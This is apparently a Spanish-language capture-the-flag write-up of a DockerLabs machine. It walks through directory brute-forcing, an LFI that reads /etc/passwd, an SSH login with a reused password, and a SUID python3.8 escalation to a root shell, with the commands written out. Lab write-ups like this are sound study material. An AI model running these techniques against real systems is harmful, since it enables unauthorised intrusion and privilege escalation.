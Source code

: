 nmap:  22,80

![[dockerlabs/facil/patriaquerida/nmap.png]]

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![[index.png]]

![[index2.png]]

buscamos eso y da solo en la pagina un "balu"

![[hidden.png]]

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![[page.png]]

y obtenemos

![[dockerlabs/facil/patriaquerida/etc.png]]

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![[dockerlabs/facil/patriaquerida/conexion.png]]

y escalamos a mario muy facil

![[dockerlabs/facil/patriaquerida/conexion2.png]]

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![[python1.png]]

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![[python2.png]]

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![[dockerlabs/facil/patriaquerida/root.png]]

somos root!